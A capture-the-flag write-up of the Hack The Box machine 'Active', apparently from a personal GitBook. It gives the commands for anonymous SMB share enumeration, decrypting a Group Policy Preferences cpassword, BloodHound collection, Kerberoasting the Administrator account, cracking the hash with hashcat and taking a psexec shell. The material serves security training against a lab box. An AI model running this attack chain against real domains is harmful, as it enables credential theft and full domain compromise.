 ```yaml
---
description: >-
  Walkthrough of the HTB machine "Active", perfect for testing Active Directory
  skills.
cover: >-
  https://images.unsplash.com/photo-1545987796-200677ee1011?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwxfHxuZXR3b3JrfGVufDB8fHx8MTcwOTU3NjkzNXww&ixlib=rb-4.0.3&q=85
coverY: 0
---
```


# 💻 Active

## Scanning

Let's start with the usual Nmap scan:

```bash
nmap -T4 -A 10.10.10.100 -Pn

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-04 15:26 -03
Nmap scan report for 10.10.10.100
Host is up (0.14s latency).
Not shown: 982 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  tcpwrapped
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  tcpwrapped
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
|_clock-skew: 1s
| smb2-time: 
|   date: 2024-03-04T18:28:50
|_  start_date: 2024-03-04T18:26:27

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 141.15 seconds
```



## Enumeration

First, we can start Enumerating the SMB Shares to check if we're able to have access to any file shares as anonymous users:

```bash
smbclient -L \\\\10.10.10.100\\ -N

# -L = list shares
# -N = no password
```

<figure><img src="../.gitbook/assets/image (24).png" alt=""><figcaption><p>Anonymous login shows us all the file shares on the target</p></figcaption></figure>

Here we can see two unusual File Shares that we can use to enumerate further. However, we don't have access to it as anonymous users. We can list all the File Shares we have access to with this command:

```basic
smbmap -u '' -p '' -H 10.10.10.100
```

<figure><img src="../.gitbook/assets/image (25).png" alt=""><figcaption><p>Anonymous users have access to the "Replication" File Share</p></figcaption></figure>

As anonymous users, we only have read access to the "Replication" File Share. We can try enumerating further:

```bash
smbclient \\\\10.10.10.100\\Replication -N
```

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption><p>Directory inside the File Share</p></figcaption></figure>

After enumerating, we can see a "_Groups.xml_" file in the following Directory: `\active.htb\Policies{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\`

<figure><img src="../.gitbook/assets/image (27).png" alt=""><figcaption><p>Groups.xml file</p></figcaption></figure>

## Exploitation

If we look at the contents of this file, we'll see a username and a "_cpassword"_:

<figure><img src="../.gitbook/assets/image (28).png" alt=""><figcaption><p>Username and cpassword found</p></figcaption></figure>

Now, we'll need to decrypt this "_cpassword_" to perform a GPP Attack. We can do this by using a tool called "_gpp-decrypt"_.

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption><p>Plain Text Password</p></figcaption></figure>

Now that we have credentials, we can try using them with "_smbmap_" one more time, to find out if this user has access to any other shares:

```bash
smbmap -u 'SVC_TGS' -p '<password>' -H 10.10.10.100
```

<figure><img src="../.gitbook/assets/image (30).png" alt=""><figcaption><p>This user has access to other File Shares</p></figcaption></figure>

### User Flag

As we can see, our recently obtained credentials show us that the SVC\_TGS user has read access to the "Users" File Share.

If we navigate through this File Share and access SVC\_TGS's Desktop, we'll see the user flag there.



## Privilege Escalation / Post Exploitation

### Enumeration

After the exploitation phase, we'll have to do enumeration once again so we know how to escalate our privileges in Active Directory.

We can start by using the "_bloodhound-python_" ingestor to get more information about the target.

To do this, let's create a new folder called "bloodhound" so our files stay more organized.

```bash
# Create a directory called bloodhound and enter it.
mkdir bloodhound
cd bloodhound

# Use the ingestor with the credentials we have to get more information about the domain
bloodhound-python -d active.htb -u svc_tgs -p <password> -ns 10.10.10.100 -c all 
    # -d = domain
    # -u = user
    # -p = password
    # -ns = name server
    # -c all = collect everything
```

<figure><img src="../.gitbook/assets/image (31).png" alt=""><figcaption><p><em>bloodhound-python</em> performing enumeration</p></figcaption></figure>

Now, we can upload all the data collected by the ingestor in "_BloodHound_" so we can have a better visual of how the Domain is built:

```bash
# We first need to start neo4j
sudo neo4j console

# Then we can start bloodhound
sudo bloodhound
```

<figure><img src="../.gitbook/assets/image (32).png" alt=""><figcaption><p>Upload the data collected to BloodHound</p></figcaption></figure>

With all the data uploaded, we can try seeing if we can perform Kerberoasting in any accounts in the domain.

### Exploitation

A Kerberoasting attack happens when an user wants to access an Application Server and makes requests to the KDC (Key Distribution Center), A.K.A, the Domain Controller (DC). To do this, the user requests a TGT (Ticket Granting Ticket) to the Domain Controller, and receives back a TGT encrypted with a Kerberos TGT (krbtgt) hash.

After that, the User will request a Ticket Granting Service (TGS) to the KDC presenting its TGT. The KDC will reply back providing the TGS encrypted with the server's account hash. This way, the Kerberoasting attack happens when we get the TGS and decrypt the server's account hash.

Let's see if there are any Kerberoastable accounts in this Domain:

<figure><img src="../.gitbook/assets/image (33).png" alt=""><figcaption><p>Administrator is a Kerberoastable user</p></figcaption></figure>

As we can see, the Administrator account is a Kerberoastable, which means we can grab the Administrator's hash just by performing a Kerboroasting attack.

To perform this Kerberoasting attack we'll do the following:

```bash
GetUserSPNs.py active.htb/svc_tgs:<password> -dc-ip 10.10.10.100 -request
```

<figure><img src="../.gitbook/assets/image (34).png" alt=""><figcaption><p>Administrator's hash</p></figcaption></figure>

Now we just need to crack this hash.&#x20;

To crack a Kerberos hash, we'll use "_hashcat_" with the mode of 13100:

```bash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../.gitbook/assets/image (35).png" alt=""><figcaption><p>Cracked Administrator Password</p></figcaption></figure>



### Root Flag

Once we have the Administrator's password, we can simply navigate to his desktop using "_psexec"_ and grab the root flag:

```bash
psexec.py active.htb/administrator:'<password>'@10.10.10.100
```

<figure><img src="../.gitbook/assets/image (36).png" alt=""><figcaption><p>Root Flag</p></figcaption></figure>

And this was the CTF!&#x20;

Thank you so much for taking the time to read my WriteUp!

See you in another box!
